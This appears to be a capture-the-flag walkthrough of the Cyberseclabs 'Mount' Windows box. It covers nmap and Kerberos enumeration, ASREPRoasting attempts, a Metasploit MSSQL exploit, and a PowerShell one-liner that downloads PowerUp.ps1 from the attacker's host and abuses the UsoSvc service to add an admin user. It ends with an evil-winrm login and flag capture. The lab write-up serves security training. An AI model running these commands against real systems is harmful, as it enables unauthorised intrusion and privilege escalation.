In this walkthrough, we'll go over a challenge (intermediate - advance) level box called "Mount". Mount is one of the realistic and fun boxes on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).



Let's start the scanning process with nmap:
```bash
nmap -T4 -A 172.31.3.5 -oX mount_scan.xml
```


We can also look at the result in html format:



As we can see there are a lot of services running on this machine from LDAP to MSSQL so let's start our enumeration with LDAP:
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 172.31.3.5 -oX mount_ldap.xml
```
I was hoping to find some user or SPNs (Service Principal Names), but this only returned some basic information, such as the domain name:



My next enumeration was kerberos since the port 88 was open:
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='mount.csl'" 172.31.3.5
```


It looks like we have admin user in the domain, can we get more information, such as non-preauth AS_REP responses. In simple terms, we are checking if the Kerberos pre-authentication was disabled for this user and vulnerable to ASREPRoasting. If this query is successful, we can obtain the TGT for a service account: 
```bash
GetNPUsers.py -dc-ip 172.31.3.5 mount.csl/administrator
```


Unfortunately, this was unsuccessful. My next enumeration would be targeting MSSQL since it is a service, let's see if we can find anything there. For this, I am using ```admin/mssql/mssql_enum``` module in Metasploit:



And this returns some users and service accounts:



Let's use another Metasploit module to pull more service account and user names, the module is ```auxiliary/admin/mssql/mssql_enum_sql_logins```:




Now, we have a bunch of service account and user names and let's try ASREPRoasting again:



```bash
GetNPUsers.py -dc-ip 172.31.3.5 mount.csl/ -usersfile users.txt -no-pass
```


And we have nothing. We know that MSSQL is running and we can enumerate, can we try an exploit on this service? Let's try Metasploit ```exploit/windows/mssql/mssql_payload```:




Yayyy, we got a shell as MSSQLSERVER service account. However, this doesn't give us the admin privileges to read the flags from both user and system.

There is a very powerful PowerShell script called PowerUp which enumerates everything and reports back all the security holes so let's upload that to the newly compromised machine and find out how we can escalate our privileges:

You just need to locate your PowerUp.ps1 and start a Python server, and then in the meterpreter shell we can download file and run it:





When we scroll down to the result, we'll see that service name UsoSvc has admin privileges:



It is suggesting that we should run ```Invoke-ServiceAbuse -Name 'UsoSvc'```. Let's do it:
```bash
iex (New-Object Net.Webclient).DownloadString('http://10.10.0.125/PowerUp.ps1');Invoke-ServiceAbuse -Name 'UsoSvc'
```


As we can see we have just created a user called John with Password123! and added to the administrators group so John is an admin on this machine. Can we try to loign as John to this machine?
```bash
evil-winrm -i 172.31.3.5 -u john -p 'Password123!'
```


Let's list all the users:



Flags are located in the respective users' desktops:




Now, we have captured both user/access and root/system flags...

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
